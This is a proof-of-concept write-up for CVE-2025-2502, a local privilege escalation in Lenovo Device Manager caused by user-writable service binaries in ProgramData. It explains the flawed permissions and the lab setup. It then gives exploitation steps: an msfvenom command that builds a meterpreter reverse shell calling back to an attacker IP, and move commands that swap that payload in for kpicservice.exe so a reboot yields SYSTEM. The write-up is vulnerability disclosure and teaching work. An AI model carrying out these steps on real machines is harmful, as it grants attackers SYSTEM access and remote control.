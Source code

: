 # CVE-2025-2502 — Lenovo Device Manager: Local Privilege Escalation (POC)

## Vulnerability Overview

While studying local privilege escalation techniques in a Windows lab, I installed Lenovo Device Manager to inspect its installed components. Browsing the ProgramData modules out of curiosity, I noticed oddly permissive ACLs on the module directories — files downloaded by the application were writable by standard users.

That raised a red flag: if a service binary stored in such a directory runs as LocalSystem, and a non-privileged user can alter the file content, a simple replace-and-reboot could make the service execute attacker-controlled code as SYSTEM.

## Vulnerability technical Overview

A permissions flaw in Lenovo Device Manager (all versions observed) grants non-privileged users **F (Full) control** over downloaded tool binaries under `C:\ProgramData\Lenovo\devicecenter\modules\…`. A privileged service (`KPICService_Lenovo`) loads one such binary as LocalSystem; because an unprivileged user can replace that binary on disk, the service will start the replaced binary as SYSTEM after a reboot — enabling local privilege escalation.

![Vulnerability Overview](https://github.com/user-attachments/assets/b93b76b1-f2f2-436f-a5dd-72f4248600af)

## Lab Setup & Reproduction

### 1. Setup Lab Environment

- Host a Windows VM and take a snapshot
- Install Lenovo Device Manager and the AI Picture plugin (vulnerable version)
- Ensure the VM is isolated from production networks

![Lab Setup](https://github.com/user-attachments/assets/9fcdeeaf-3600-4dc7-b646-6e7e8bc78c5a)

### 2. Confirm Service & Permissions

Inspect the service configuration and file permissions:

**Service Location:**

C:\ProgramData\Lenovo\devicecenter\modules\aipicture\5.1.80.8121\kpicservice.exe


![Service Configuration](https://github.com/user-attachments/assets/ef41db4c-c148-4512-ad15-a8eb82d14427)

![File Permissions](https://github.com/user-attachments/assets/e33ef6fe-910d-48cc-beab-0f4d2f841f6e)

### 3. Validate

With the system booted into a state where the service process is locked, confirm an unprivileged account can move or rename the original `kpicservice.exe` file.

<img width="803" height="148" alt="image" src="https://github.com/user-attachments/assets/96afd83f-22ce-4ed9-be10-1acef9a914ac" />

## Practical Exploitation Steps

### Generate Payload

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.100.133 LPORT=4444 -f exe -o kpicservice.exe
```
# Move original file
```bash
move C:\ProgramData\Lenovo\devicecenter\modules\aipicture\5.1.80.8121\kpicservice.exe kpicservice.exe.backup
```
# Replace with payload
```bash
move Desktop\kpicservice.exe C:\ProgramData\Lenovo\devicecenter\modules\aipicture\5.1.80.8121\kpicservice.exe
```
### Trigger Exploitation
Reboot the device

The service automatically starts the replaced kpicservice.exe (payload)

Obtain SYSTEM privileges

<img width="921" height="677" alt="image" src="https://github.com/user-attachments/assets/56ba6c54-af25-449a-8b2e-aec7add0a96e" />

